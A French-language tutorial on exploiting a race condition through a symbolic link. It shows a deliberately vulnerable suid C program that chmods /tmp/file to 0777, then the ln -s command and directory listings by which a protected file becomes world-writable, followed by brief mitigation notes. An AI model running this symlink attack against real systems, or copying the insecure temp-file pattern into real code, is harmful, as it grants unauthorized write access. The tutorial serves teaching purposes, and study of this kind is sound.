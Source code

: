 # Race Condition

## I. Introduction
L'idée de la Race Condition est de profiter de l'accès concurrent de deux acteurs à une même ressource, et qu'au moins l'un d'entre eux est susceptible de modifier l'état de celle-ci. Nous allons par exemple ici rediriger les actions effectuées par le programme `vuln` d'un fichier à un autre.

## II. Pré-requis
* Avoir le droit de lecture écriture dans `/tmp/`
* Le programme `vuln` est suid, ou bien éxécuté par un utilisateur ayant les bons privilèges

```{r, engine='bash'}
aas@air:~$ cat vuln.c
int main(int arc, char **argv)
{
	int fd = open("/tmp/file",O_RDWR|O_CREAT, 0666);
	chmod("/tmp/file", 0777);
	close(fd);
	return 0;
}
```

Ce programme accorde des droits rwx à tout le monde pour le fichier `/tmp/file`. 

## III. Exploitation
Mettons que nous souhaitions maintenant écrire dans un fichier `/tmp/interdit` auquel nous n'avons pas les droits en écriture. Si nous pouvions détourner les actions entreprises par le programme `vuln` sur `/tmp/file` à `/tmp/interdit`, nous obtiendrions les droits nécéssaires. Cela est possible grace aux liens symboliques.

### Création du lien symbolique
```{r, engine='bash'}
aas@ubuntu:~$ ln -s /tmp/interdit /tmp/file
aas@ubuntu:~$ ls -l
total 13
-rwsr-xr-x  1 root       root      11238 2012-06-26 15:27 vuln
-rw-r--r--  1 root       root        188 2012-06-26 15:26 vuln.c
lrwxrwxrwx  1 aas        aas           9 2012-07-06 15:35 file -> interdit
-rw-r--r--  1 root       root          0 2012-07-06 15:22 interdit
```
Le fichier `file` pointe vers `interdit`. Lorsqu'on agit sur `file`, on agit donc en réalité sur `interdit`.

### Execution
```{r, engine='bash'}
aas@ubuntu:~$ ./vuln
aas@ubuntu:~$ ls -l
total 13
-rwsr-xr-x  1 root       root      11238 2012-06-26 15:27 vuln
-rwsr--r--  1 root       root        188 2012-06-26 15:26 vuln.c
lrwxrwxrwx  1 aas        aas           9 2012-07-06 15:35 file -> interdit
-rwxrwxrwx  1 root       root          0 2012-07-06 15:36 interdit
```
Lorsque `vuln` est executé, il cherche à attribuer les droits 777 à `file`, mais puisque `file` est un lien symbolique vers `interdit`, les droits sont en réalité affectés à `interdit`. Nous avons accédé de manière concurrente à une ressource, l'avons modifié, et par conséquent avons trompé le programme vulnérable.

## IV. Sécurisation
Même s'il n'y a pas vraiment de protection efficace, notons que les mécanismes de sélection d'accès (sémaphores par exemple) doivent être mis en place, il faut protéger les repertoires temporaires avec l'option `nosuid`, etc...

## V. Sources
[Lien1](http://blog.stalkr.net/2010/11/exec-race-condition-exploitations.html)

